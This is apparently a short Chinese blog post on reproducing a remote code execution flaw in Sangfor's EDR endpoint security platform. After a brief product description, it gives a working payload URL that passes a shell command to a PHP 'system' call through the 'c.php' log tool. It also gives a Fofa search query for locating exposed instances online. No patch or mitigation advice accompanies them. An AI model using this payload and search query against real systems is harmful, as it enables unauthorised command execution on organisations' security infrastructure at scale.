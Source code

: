 # 深X服 EDR终端检测系统RCE漏洞复现




#### 简介

深信服终端检测响应平台EDR，围绕终端资产安全生命周期，通过预防、防御、检测、响应赋予终端更为细致的隔离策略、更为精准的查杀能力、更为持续的检测能力、更为快速的处置能力。在应对高级威胁的同时，通过云网端联动协同、威胁情报共享、多层级响应机制，帮助用户快速处置终端安全问题，构建轻量级、智能化、响应快的下一代终端安全系统。



#### EDR的界面

<img src="https://image.geoer.cn/rce11.jpg"></img>





#### RCE Payload

```bash
https://xxx.com:xxx/tool/log/c.php?strip_slashes=system&host=id
```

<img src="https://image.geoer.cn/rce22.jpg"></img>





#### **Fofa关键字** 

```bash
title="终端检测响应平台"
```



---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E6%B7%B1x%E6%9C%8D-edr%E7%BB%88%E7%AB%AF%E6%A3%80%E6%B5%8B%E7%B3%BB%E7%BB%9Frce%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/  

